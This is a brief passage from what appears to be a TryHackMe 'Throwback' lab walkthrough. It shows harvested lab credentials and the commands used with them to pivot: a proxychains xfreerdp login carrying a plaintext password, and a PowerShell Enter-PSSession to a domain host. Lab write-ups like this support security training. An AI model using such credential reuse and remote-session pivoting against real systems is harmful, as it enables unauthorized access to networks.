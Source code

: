 There's a credentials.
`DaviesJ:Management2018`


Let's use Powershell to get a shell here. The xfreerdp window that we have for `proxychains xfreerdp /u:mercerh /p:pikapikachu7 /cert:ignore /v:10.200.154.118`


```
Enter-PSSession -ComputerName corp-adt01.corporate.local  -Credential corporate\DaviesJ
```

![emai__2](/assets/img/tryhackme/throwback/emai__2.png)

It will popup a window to enter the password `Management2018`

![popup](/assets/img/tryhackme/throwback/popup.png)
